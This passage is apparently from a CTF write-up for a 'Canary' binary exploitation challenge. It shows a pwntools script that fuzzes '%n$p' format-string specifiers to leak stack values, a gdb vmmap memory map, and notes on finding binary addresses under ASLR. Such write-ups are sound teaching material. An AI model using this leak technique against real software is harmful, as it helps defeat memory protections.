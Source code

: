 LEAKING STUFF!
Here is my script that 'fuzz' the binary to find some leak

    from pwn import *
    
    elf = ELF("./s")
    f = open("format.txt", "w")
    for i in range(100):
    	io = elf.process()
    	p = f"%{i}$p"
    	io.sendline(p)
    	data = f"{i} : {io.recv(1024,timeout=2)}\n"
    	f.write(data)
    	io.close()

First of all we need to load the binary on gdb (I use it with pwndbg extension) and check the offsets of every segment of the binary...
Here the result of vmmap command:

                 Start                End Perm     Size Offset File
        0x555555554000     0x555555555000 r--p     1000      0 /home/ctf/lit ctf/Canary/s
        0x555555555000     0x555555556000 r-xp     1000   1000 /home/ctf/lit ctf/Canary/s
        0x555555556000     0x555555557000 r--p     1000   2000 /home/ctf/lit ctf/Canary/s
        0x555555557000     0x555555558000 r--p     1000   2000 /home/ctf/lit ctf/Canary/s
        0x555555558000     0x555555559000 rw-p     1000   3000 /home/ctf/lit ctf/Canary/s
        0x7ffff7c00000     0x7ffff7c28000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7c28000     0x7ffff7dbd000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7dbd000     0x7ffff7e15000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7e15000     0x7ffff7e19000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7e19000     0x7ffff7e1b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7e1b000     0x7ffff7e28000 rw-p     d000      0 [anon_7ffff7e1b]
        0x7ffff7fa2000     0x7ffff7fa5000 rw-p     3000      0 [anon_7ffff7fa2]
        0x7ffff7fbb000     0x7ffff7fbd000 rw-p     2000      0 [anon_7ffff7fbb]
        0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000      0 [vvar]
        0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000      0 [vdso]
        0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7fef000     0x7ffff7ffa000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
    0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]

So for leaking the entry address of the binary we will only check address that are between 0x555555554000 and  0x555555559000, right? Nop, there is also aslr, these are address that works only on gdb :(

What we do know is that the first byte of the address tells us what area we are in. In our case we have to look for addresses starting with 0x55
